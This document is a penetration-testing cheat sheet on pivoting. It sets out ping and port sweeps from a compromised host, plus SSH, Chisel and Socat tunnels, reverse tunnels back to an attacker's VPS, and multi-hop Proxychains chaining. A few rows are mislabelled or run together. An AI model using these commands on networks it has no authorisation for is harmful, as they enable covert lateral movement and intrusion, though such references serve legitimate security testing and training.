

# Pivoting

```
Need to access internal network? → How much access needed?
    │
    ├─► Single port/service → SSH/Chisel
    │
    ├─► Multiple ports, TCP only → Chisel SOCKS
    │
    ├─► Full network, UDP needed → Ligolo-ng
    │
    ├─► AD environment, many tools → Ligolo-ng
    │
    └─► Quick and simple → SSH
```

# **Pivoting Reconnaissance**

> It’s good to attempt our ping sweep at least twice. It’s possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks.
> 

## In Linux

| **Action** | **Description** |
| --- | --- |
| `ifconfig` | Displays the current network configuration. Useful for identifying multiple network adapters. |
| `for i in {1..254}; do (ping -c 1 XXX.XXX.XXX.$i | grep "bytes from" &) ; done` | Performs a ping sweep from the command line. Modify the IP range as needed.Increase the `-c` value to send more probes if hosts appear to be missed. |
| `for i in {1..254}; do nc -vz -w 1 XXX.XXX.XXX.$i <port> 2>&1 | grep succeeded; done` | Performs a port sweep from the command line. Modify the IP range as needed. |
| `./nmap ...` | You can upload a static Nmap binary to the compromised host and use it to scan the network. |
| `netstat -r` | Displays the system’s routing table. May reveal additional IP addresses or reachable networks. |

## In Windows

| **Action** | **Description** |
| --- | --- |
| `ipconfig` | Displays current network settings. Look for multiple network interfaces. |
| `for /L %i in (1,1,254) do ping XXX.XXX.XXX.%i -n 1 -w 100 | find "Reply"` | Conducts a basic ping sweep.Update the IP range as needed. Output formatting may vary. Increase the `-n` value for more probes if necessary. |
| `1..254 | ForEach-Object { if (Test-Connection -ComputerName "XXX.XXX.XXX.$_" -Count 1 -Quiet) { Write-Host "XXX.XXX.XXX.$_ is reachable" } else { Write-Host "XXX.XXX.XXX.$_ is unreachable" } }` | Executes a ping sweep using PowerShell.Adjust the IP range as required. This can be slow. |
| `netstat -r` | Displays the system’s routing table. May reveal additional IP addresses or reachable networks. |

# **Local Port Forwarding**

## With SSH

| **Command** | **Description** |
| --- | --- |
| `ssh ... -L 0.0.0.0:<proxy-port>:<target-ip>:<target-port>` | **(Attack)** If you have SSH access, it’s often easiest to use this method. Once set up, you can access the remote service locally. |
| Start SSH service on the attack host:
`sudo systemctl start ssh`

Connect from the proxy to the attack host:
`ssh ... -R 0.0.0.0:<proxy-port>:<target-ip>:<target-port> sshuser@<attack-ip>` | **(Proxy)** Alternatively, if the proxy doesn’t have a listening SSH service, we can do a remote port forward.The proxy host connects via SSH to the attack host, but otherwise everything is exactly the same. |

> If you don’t want the SSH shell session, use `-N` flag.
> 

## With Chisel

Chisel works by transporting SSH traffic over HTTP, so this works as HTTP tunneling as well.

| **Command** | **Description** |
| --- | --- |
| `chisel server -v --socks5 --reverse -p <chisel-server-port>` | **(Attack)** Starts a reverse Chisel server on the ttacking machine.The output will include a fingerprint, which is required for setting up the client. |
| `chisel client --fingerprint <fingerprint> <attack-ip>:<chisel-server-port> R:<proxy-port>:<target-ip>:<target-port>` | **(Proxy)** Establishes a Chisel client on the target that connects back to the attacker’s server.

The Chisel binary must be transferred to the proxy host. |

## With Socat

| **Action** | **Description** |
| --- | --- |
| `socat -ddd TCP-LISTEN:<proxy-port>,fork TCP:<target>:<target-port>` | **(Proxy)** The `socat` binary can be often found on Linux systems.In which case, we can use it to port forward without loading additional tools on the proxy. |

# **Dynamic Port Forwarding**

## With Proxychains

| **Action** | **Description** |
| --- | --- |
| Add this line:
`socks5 127.0.0.1 1080` | We need to edit the `/etc/proxychains4.conf` file so Proxychains can locate our SOCKS proxy and recognize its type.

Just replace any existing proxy entry at the end of the file with a line specifying the proxy type and address. |
| `proxychains ...` | To interact with the hosts via CLI, prefix the command with `proxychains` to route the traffic through the proxy.

Use the `-q` flag if you don’t want `proxychains` to output debug information. |

## With SSH

| **Action** | **Description** |
| --- | --- |
| `ssh ... -D 0.0.0.0:1080` | **(Attack)** Starts a SOCKS proxy over SSH on port 1080. |
| For this to work, the SSH client version should be 7.6 or above:
`ssh -V`

Start SSH service on the attack host:
`sudo systemctl start ssh`

Connect from the proxy to the attack host:
`ssh ... -R 1080 sshuser@<attack-ip>` | **(Proxy)** Alternatively, if the proxy doesn’t have a listening SSH service, we can do a remote port forward.

The proxy host connects via SSH to the attack host, but otherwise everything is exactly the same. |

## With Chisel

| **Action** | **Description** |
| --- | --- |
| `chisel server -v --socks5 --reverse -p <chisel-server-port>` | **(Attack)** Creates a reverse Chisel server.

This will output a fingerprint, which we’ll need to setup the client. |
| `chisel client --fingerprint <fingerprint> <attack-ip>:<chisel-server-port> R:socks` | **(Proxy)** Creates a Chisel client that connects back to the attack’s server.

The Chisel binary must be transferred to the proxy host. |

To open a host’s website via the browser, use Firefox with the FoxyProxy extension:



> SOCKS proxies do not support raw packet features. Stealth scans (like `-sS`) won’t work with `proxychains`. Use `-sT` instead, even with `sudo`.
> 

> SOCKS proxies do not support ICMP traffic. That means `ping` won’t work when using `proxychains`.
> 

# **Reverse Port Forwarding**

## With Chisel

| **Action** | **Description** |
| --- | --- |
| `chisel client --fingerprint <fingerprint> <attack-ip>:<chisel-server-port> 0.0.0.0:<reverse-port>:<attack-ip>:<reverse-port>` | **(Attack)** Creates a reverse Chisel server.This will output a fingerprint, which we’ll need to setup the client. |
| `chisel client --fingerprint <fingerprint> <attack-ip>:<chisel-server-port> 0.0.0.0:<reverse-port>:<attack-ip>:<reverse-port>` | **(Proxy)** Creates a Chisel client that connects back to the attack’s server.

The Chisel binary must be transferred to the proxy host. |

## With SSH

| Action | **Description** |
| --- | --- |
| `ssh -N -R 4444:localhost:4444 attacker@your-vps` | On compromised host: Creates reverse tunnel from local port 4444 to attacker's VPS port 4444 |

# **Proxy Chaining**

> For this technique to work, we assume that a [Dynamic Port Forwarding](https://field-manual.brunorochamoura.com/manual/lateral-movement/pivoting/dynamic-port-forwarding/) connection is already established between **Attack** and **Proxy 1**. This serves as the first link in the proxy chain and forms the foundation for adding more proxies further into the network.
> 

| **Command** | **Description** |
| --- | --- |
| `chisel server -v --socks5 --reverse -p <chisel-server-port>` | **(Proxy 1)** Starts a reverse Chisel server with SOCKS5 support.

Use a unique port that’s not used by other servers (on any host).

This command will output a fingerprint required for the client setup.

Ensure the Chisel client already running on Proxy 1 stays active. |
| `chisel client --fingerprint <fingerprint> <proxy-1-internal-ip>:<chisel-server-port> R:2080:socks` | **(Proxy 2)** Launches a Chisel client that connects to Proxy 1’s server.

We use port `2080` here since this is the second proxy in the chain (use `3080` for the third, `4080` for the fourth, etc.). |
| Example for two hops:
`socks5 127.0.0.1 1080socks5 127.0.0.1 2080`

If we we added our third connection, we’d need add a `3080` line and so forth. | **(Attack)** Edit `/etc/proxychains4.conf` to include the newly added connection. |